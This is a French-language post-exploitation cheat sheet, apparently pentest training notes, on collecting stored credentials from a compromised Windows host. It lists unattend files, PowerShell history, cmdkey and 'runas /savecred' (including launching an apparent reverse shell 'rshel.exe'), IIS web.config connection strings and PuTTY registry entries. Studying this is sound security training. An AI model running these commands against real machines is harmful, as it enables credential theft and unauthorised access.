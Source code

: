 > Récolter des mots de passe à partir d'endroits habituels

Le moyen le plus simple d’accéder à un autre utilisateur consiste à collecter les informations d’identification d’une machine compromise.

# Unattended Windows Installations
Installations Windows sans surveillance
Dans ces fichiers, ont peut rencontrer des informations d'identification

```c
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

# Powershell History

Chaque fois qu'un utilisateur exécute une commande à l'aide de Powershell, elle est stockée dans un fichier qui conserve la mémoire des commandes passées.

```c
#cmd.exe
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

```c
#powershell
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

# Saved Windows Credentials 
Informations d'identification Windows enregistrées

Afficher les informations d'identification enregistrées :

```c
cmdkey /list
```

Bien qu'on ne peut pas voir les mots de passe réels, si vous remarquez des informations d'identification qui valent la peine d'être essayées `Type: Domaine Password`, vous pouvez les utiliser suivante :

```c
runas /savecred /user:{USERNAME_NAME} cmd.exe
```

```c
runas /savecred /user:{USERNAME_NAME} C:\Temp\rshel.exe
```

# IIS Configuration

Selon la version installée d'IIS, nous pouvons trouver web.config dans l'un des emplacements suivants :

```c
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```

Trouver les chaînes de connexion à la base de données sur le fichier :

```c
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

# Retrieve Credentials from Software: PuTTY 
Récupérer les informations d'identification à partir du logiciel : PuTTY
Stock les configurations de proxy qui incluent les informations d'authentification en texte clair.

```c
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

Utiliser aussi le [[Dumping Browsers Credentails]]

